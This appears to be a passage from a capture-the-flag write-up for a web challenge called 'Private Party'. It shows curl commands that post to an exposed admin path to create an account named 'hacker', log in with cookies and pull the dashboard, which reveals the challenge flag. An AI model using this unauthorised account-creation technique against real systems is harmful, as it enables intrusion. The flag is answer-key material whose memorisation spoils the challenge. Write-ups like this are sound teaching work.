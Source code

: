 Create an account hacker with a password of password123.

```bash
curl -X POST http://5.223.49.127:8001//admin \
 -H "Content-Type: application/json" \
 -d '{"username":"hacker","password":"password123"}' \
 -v
```

After we have created an account, we got the so-called exclusive access. Now, let’s login to the page using our credentials that we just created.

Login to the account using created credentials.

```bash
curl -c live_cookies.txt \
 -X POST http://5.223.49.127:8001/login \
 -d "username=hacker&password=password123"
 ```

After gaining access, the flag is located at the dashboard. Pulling the dashboard using the cookies gets us the flag.

Fetch Flag on the dashboard using cookies session

```
curl -b live_cookies.txt http://5.223.49.127:8001/dashboard
```


And the result is as follows:
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Private Party</title>
    <link rel="stylesheet" href="/static/css/style.css">
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Quantico:ital,wght@0,400;0,700;1,400;1,700&display=swap" rel="stylesheet">
  </head>
  <body>
    <div class="container">
      <div class="site-header">
        <img src="/static/assets/title.png" 
             alt="Site Logo" class="site-logo">
      </div>
      
        
          
            <div class="flash success">Login successful.</div>
          
        
      
      
  <h2>Forum Dashboard</h2>
  <p>Welcome, <strong>hacker</strong>.</p>
  <div class="flag">SIBER25{s3lf_1nv17ed_gu35ts_wh47?}</div>

    </div>
  </body>
</html>%
```
